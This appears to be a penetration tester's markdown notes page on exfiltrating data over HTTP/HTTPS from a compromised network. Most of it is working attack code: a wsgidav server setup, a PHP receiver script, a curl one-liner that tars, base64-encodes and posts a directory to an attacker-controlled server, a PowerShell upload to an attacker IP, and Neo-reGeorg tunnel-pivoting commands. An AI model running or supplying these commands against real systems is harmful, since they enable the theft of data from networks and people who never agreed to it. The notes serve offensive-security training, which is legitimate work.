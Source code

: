 # Data Exfiltration Over HTTP and HTTPS

Real world scenario is that an attacker controls a cloud web server an agent or command is then executed from inside the network with a compromised machine to send the data to the webserver that is outside the compromised network. Then the attacker can just log in to a web server to get the data.

[wsgidav - Kali Tools](https://www.kali.org/tools/wsgidav/)
```bash
# 2023-2024~ Kali and Python3
sudo apt install python3-wsgidav

# wsgidav --port=80 --host=0.0.0.0 --root=/tmp --auth=anonymous

# Depending on OS version and python3 installation
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root 

# Host from a directory
mkdir /tmp/webdav/

 wsgidav --port=80 --host=192.168.45.225 --root=$(pwd) --auth=anonymous
```

## HTTP

**HTTP Data Exfiltration will all be in plaintext and therefore not secure. If you use HTTPS it will be encrypted**

1.  An attacker create a page to be a data handler on the web server.
2.  A C2 agent or an attacker sends the data. 
3.  The webserver receives and stores the data.
4.  Login to webserver and get the data.

#### PHP version:#
bad.php contains:
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Then from the machine containing the data to be exfiltrated

```bash
curl --data "file=$(tar zcf - <directory> | base64)" http://webserver/bad.php
```

Then from webserver decode and decompress
```bash
sed -i 's/ /+/g' /tmp/http.bs64
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

#### Or with encoding

Host a http server, make directory owned by www-data
```bash
mkdir /var/www/uploads -p
chown www-data: /var/www/uploads 
```
Script to placed in `/uploads/upload.php`
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Upload
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://$IP/upload.php', 'bad.exe')
```
## Tunneling

[neo-regeorg](https://github.com/L-codes/Neo-reGeorg) is the improve reGeorg a tool for HTTP tunnel pivoting previously written in python 2.7.
```bash
# Generates encrypted Tunneling clients
# key is in the neoreg_servers/
/opt/Neo-reGeorg: python3 neoreg.py generate -k <key> 
# upload one of the compatible clients to webserver
# create tunnel
/opt/Neo-reGeorg: python3 neoreg.py -k <key -u http://url/path/to/tunnel.php
 curl --socks5 127.0.0.1:1080 http://inaccessible-without-tunnel
```

## Notes
The 'Black Hat Python Ed.2' book contains a API exfiltration script to pastebin from a Windows Machine

## References

[neo-regeorg](https://github.com/L-codes/Neo-reGeorg) 
[wsgidav - Kali Tools](https://www.kali.org/tools/wsgidav/)
